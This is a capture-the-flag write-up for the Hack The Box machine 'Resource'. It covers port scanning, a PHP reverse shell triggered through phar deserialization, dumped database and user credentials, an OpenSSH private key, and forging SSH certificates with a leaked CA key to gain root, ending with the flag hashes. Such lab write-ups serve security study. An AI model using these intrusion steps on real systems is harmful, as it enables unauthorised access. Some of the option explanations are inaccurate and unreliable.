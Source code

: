 ```yaml
---
title: "HTB: Resource Seasonal Machine"
author: "v3l1d"
date: "2024-08-20"
---
```



![](attachment/3bd70dd5104068e4031e06ac1c61711d.png)

**Port Scan**

```shell
┌──(kali㉿kali)-[~/HTB/Resource]
└─$ cat scan_Complete 
# Nmap 7.94SVN scan initiated Sun Aug 11 14:52:16 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan_Complete 10.10.11.27
Nmap scan report for 10.10.11.27
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 11 14:52:32 2024 -- 1 IP address (1 host up) scanned in 15.74 seconds
```

Visit http://itrc.ssg.htb/ 



![](attachment/712ccf9b98e3eb82338f1bcde7b3513e.png)

On this page you can open a ticket uploading a zip file containing a reverse shell script in php. You can exploit phar deserialization to handle the shell generated on revshell generator:

![](attachment/f1f2f21551a2817bed9305cd5d124173.png)

![](attachment/c85cade67bf78fd22ea7ffe4c4886d54.png)


Upload the file on ticket system and open up its page:

![](attachment/f50a4431998e612de3034ff616a90414.png)

```shell
http://itrc.ssg.htb/?page=phar://uploads/0d327960dcada2c40fb3b5c0cc99154b3963ecd4.zip/<phpfilename>
without php extension
```

```shell
$ cd /var/www
$ ls
html
itrc
$ cd itrc
$ ls
admin.php
api
assets
create_ticket.php
dashboard.php
db.php
filter.inc.php
footer.inc.php
header.inc.php
home.php
index.php
loggedin.php
login.php
logout.php
register.php
savefile.inc.php
ticket.php
ticket_section.inc.php
uploads
$ cat db.php    
<?php
$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}$ 

```

Credentials found here didn't work neither for ssh or others.
This box looks always broken so i decided to look a writeup and found out that should be present a file in /uploads folder of itrc that i don't have:

![](attachment/836cab1aee6922d645e447bf11a51d46.png)

```shell
Credentials:
msainristil:82yards2closeit
```

![](attachment/334f5c9284c02ea18b054c4959331e94.png)

In the decommisions_old_ca folder there is priv/pub key pair, that we are going to convert into ssh keys.

```shell
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -n zzinter -I kali keypair.pub 
```


![](attachment/865cfe3a7e89dbf3d5425f2b30dc78e3.png)

When i was www-data i noted that was a port listening on 127.0.0.11, this usuaylly means that we are in adocker container, so trough linpeas i  had a tip about this. Then i used deepce and got:

![](attachment/c3bd47cec612c42278a478ca983b2cd1.png)

RABBIT HOLE, try hard on SSH: https://shivamaharjan.medium.com/ssh-cas-and-principals-630a433d76d6

```shell
ssh-keygen -t ecdsa -C "The CA" -N "" -f root_key
ssh-keygen -s ./ca-itrc -I CA-signing -n msainristil,zzinter,root -V +1w -z 1 ./root_key.pub

Copy with scp generated files and:

──(kali㉿kali)-[~/HTB/Resource]
└─$ ssh -o CertificateFile=root_key-cert.pub -i root_key root@10.10.11.27            
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@itrc:~# ls
```

Even if we logged as root, there's no root flag, so download **sign_key_api.sh** file.

![](attachment/922daa0e3bdaddd8a0a3093c42c89b9f.png)

![](attachment/09598aa1ce18ac9b5f233eecf3a06a09.png)

From zzinter ssh scp this file: **sign_key_api.sh** and modify the file with vim appending **zzinter_temp** and **root_user** as are present in ssh_principals of the box. This is visible generating a public cert for support@ssg.

![](attachment/f1ae315604077afbaba6cfce52ee1e7c.png)

Now sign the private key we obtained with the script, generating a certificate signed 

```shell
┌──(kali㉿kali)-[~/HTB/Resource/zzinter_keys]
└─$ ./sign_key_api.sh keypair.pub zzinter zzinter_temp > zzinter.cert
```

From a writeup (i needed help) i recover this key that we will use a certificate to generate root ssh-key. Pasted it in root_ssh.cert file
```shell
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW 
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc 
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ 
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA 
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV 
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Then login as root on your kali and sign a the private key using this certificate i provided

```shell
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub
Signed user key keypair-cert.pub: id "root" serial 1 for root_user valid after 2024-08-13T13:24:56
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -f keypair-cert.pub -e > root_keypair
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh -o CertificateFile=keypair-cert.pub -i keypair root@10.10.11.27 -p 2222

```

```shell
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair //Extract the pub key from private // OR
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub //Use Directly the pub key
```

This command generates a signed SSH user certificate using the `ssh-keygen` tool. Here's what each option does:

- -s root_ssh.cert`: specifies the CA certificate file to use for signing (not shown in the output, but assumed to exist).
- -z 1`: specifies the serial number of the certificate (in this case, 1).
- `-I root`: specifies the principal identity of the certificate (in this case, "root").
- `-V -1W:forever`: specifies the validity period of the certificate (in this case, forever, starting from the current time).
- `-n root_user`: specifies the username of the certificate (in this case, "root_user").
- `keypair.pub`: specifies the output file for the generated public key.

The resulting certificate is stored in `keypair-cert.pub`.

**Flags**

![](attachment/d9314cee50c28c2118e10e586b1ea6b8.png)

```shell
user: 98a79086fe46218a7edd6abc87eb54f3
root: 495f767f17cf87214179384c1f145b91
```
